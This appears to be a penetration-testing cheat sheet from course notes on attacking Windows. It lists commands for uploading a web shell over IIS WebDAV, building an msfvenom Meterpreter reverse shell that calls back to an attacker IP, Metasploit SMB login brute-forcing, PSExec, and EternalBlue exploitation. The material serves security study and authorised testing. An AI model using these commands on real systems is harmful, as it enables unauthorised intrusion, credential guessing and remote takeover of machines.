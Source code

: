 # Windows Vunerabilities

## Microsoft ISS WebDAV
```
davtest -url [URL]
```
```
davtest -auth [USERNAME]:[PASSWORD] -url [URL]
```
```
cadaver [URL]
```
Once inside cadaver prompt:
```
put [MALICIOUS-WEBSHELL]
```
Now Check ISS WebDAV via internet browser to perform objectives...

### Metasploit
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -f asp > [FILENAME]
```
Now put payload on target machine by any means (cadaver works well, see command above)  

Next set up and start a listenr:  
```
service postgresql start && msfconsole
```
```
use multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
Set other required options and exploit

#### Automate the above process

```
use exploit/windows/iss/iss_webdav_upload_asp
```
Now set required options and exploit.  
****************************************

## SMB

### Metasploit
```
service postgresql start && msfconsole
```
#### Dictionary Attack
```
search smb_login
```
```
use auxiliary/scanner/smb/smb_login
```
Show options, set them, and exploit the target

#### PSExec Module
```
search psexec
```
```
exploit/windows/smb/psexec
```
Show options, set them, and exploit the target


### PSExec
```
psexec.py [USERNAME]@[TARGET-IP] cmd.exe
```

### Eternal Blue
Check for vulnerability:
```
nmap -sV -p 445 --script=smb-vuln-ms17-010 [TARGET-IP]
```
#### Auto Blue GitHub (Manual Exploit)
https://github.com/3ndG4me/AutoBlue-MS17-010

#### Metasploit
```
search eternalblue
```
Check for vulnerability:
```
use auxiliary/scanner/smb/smb_ms17_010
```
Exploitation:
```
use exploit/windows/smb/ms17_010_eternalblue
```
Show options, set them, and exploit

**************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
